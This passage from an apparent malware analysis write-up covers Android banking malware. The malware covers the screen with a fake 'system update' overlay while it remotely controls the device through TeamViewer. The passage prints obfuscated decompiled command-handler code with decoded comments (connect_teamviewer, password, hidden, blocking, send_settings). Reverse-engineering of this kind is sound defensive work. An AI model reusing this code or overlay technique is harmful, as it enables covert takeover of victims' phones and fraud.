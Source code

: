 <center><font size="3"> <u>Figure</u>(1): decrypting keys and C2 server<u></u> </font></center>
<br>

# TeamViewer helps the devil

This an amazing technique which allow the malware to do malicious things even if the user is opening the device. The malware will open an overlay screen which tells the user that `there's a system update you need to wait`. While the overlay screen is set over the screen, the malware will do malicious actions by conneecting to `TeamViewer` app.

<p align="center">
  <img src="/assets/images/MA/alien/2.png" />
</p>
<center><font size="3"> <u>Figure</u>(2): Fake system update<u></u> </font></center>
<br>

```cs
   if(s2.contains(this.a("ZWJkNzMyYWFkYjM1NzUwYWJkYTkxYTVlNDgyMDdlZDhiMGNh"))) {  // connect_teamviewer
                    JSONObject jSONObject6 = new JSONObject(s2);
                    this.a.e(this, this.b.aK, jSONObject6.getString(this.a("ZWJkNzMyYWFkYjM1NzUwYWJkYTkxYTVlNDgyMDdlZDhiMGNh")));  // connect_teamviewer
                    this.a.e(this, this.b.aL, jSONObject6.getString(this.a("ZjhkOTJmYjdjOTM5NzMzMQ==")));  // password
                    this.a.e(this, this.b.aO, jSONObject6.getString(this.a("ZWVkOTM3YTE=")));  // fake
                    this.a.e(this, this.b.aM, jSONObject6.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                    this.a.e(this, this.b.aN, jSONObject6.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                    this.a.f(this);
                    i.f(this, this.a("ZWJkNzMxZWFjYTMzNjAzOGJmYTUxZTQ0NWIzYjM1YzdiYWNiOTZiODljYTY5MTNhZGFlYQ=="));  // com.teamviewer.host.market
                    goto label_5;
                }

                if(s2.contains(this.a("ZTdjODM5YWFlMTIyNjQzNGE0YmExMjU2NDkyYzY5"))) {  // open_teamviewer
                    JSONObject jSONObject7 = new JSONObject(s2);
                    this.a.e(this, this.b.aO, jSONObject7.getString(this.a("ZWVkOTM3YTE=")));  // fake
                    this.a.e(this, this.b.aM, jSONObject7.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                    this.a.e(this, this.b.aN, jSONObject7.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                    this.a.f(this);
                    i.f(this, this.a("ZWJkNzMxZWFjYTMzNjAzOGJmYTUxZTQ0NWIzYjM1YzdiYWNiOTZiODljYTY5MTNhZGFlYQ=="));  // com.teamviewer.host.market
                    goto label_5;
                }

                if(s2.contains(this.a("ZmJkZDMyYTBlMTI1NjQyMWJkYTUxNTU0NGQ="))) {  // send_settings
                    JSONObject jSONObject8 = new JSONObject(s2);
                    this.a.e(this, this.b.aO, jSONObject8.getString(this.a("ZWVkOTM3YTE=")));  // fake
                    this.a.e(this, this.b.aM, jSONObject8.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                    this.a.e(this, this.b.aN, jSONObject8.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
```